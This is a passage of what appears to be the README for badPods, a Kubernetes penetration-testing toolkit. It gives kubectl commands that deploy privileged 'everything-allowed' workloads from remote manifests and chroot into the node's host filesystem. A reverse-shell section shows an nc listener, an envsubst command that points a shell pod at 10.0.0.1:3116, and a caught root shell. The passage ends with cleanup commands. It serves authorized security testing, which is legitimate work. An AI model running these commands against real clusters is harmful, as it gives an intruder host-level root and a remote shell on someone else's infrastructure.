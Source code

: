 ```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/replicaset/everything-allowed-exec-replicaset.yaml
kubectl get pods | grep everything-allowed-exec-replicaset
kubectl exec -it everything-allowed-exec-replicaset-[ID] -- chroot /host bash

```
**ReplicationController**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/replicationcontroller/everything-allowed-exec-replicationcontroller.yaml
kubectl get pods | grep everything-allowed-exec-replicationcontroller
kubectl exec -it everything-allowed-exec-replicationcontroller-[ID] -- chroot /host bash
```
**DaemonSet**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/daemonset/everything-allowed-exec-daemonset.yaml 
kubectl get pods | grep everything-allowed-exec-daemonset
kubectl exec -it everything-allowed-exec-daemonset-[ID] -- chroot /host bash
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Generic resource type creation example***
Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

**Step 1: Set up listener**
```bash
nc -nvlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/everything-allowed/[RESOURCE_TYPE]/everything-allowed-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell and chroot to /host**
```bash
$ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
# chroot /host
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml
kubectl delete pod everything-allowed-exec-pod
kubectl delete cronjob everything-allowed-exec-cronjob
```
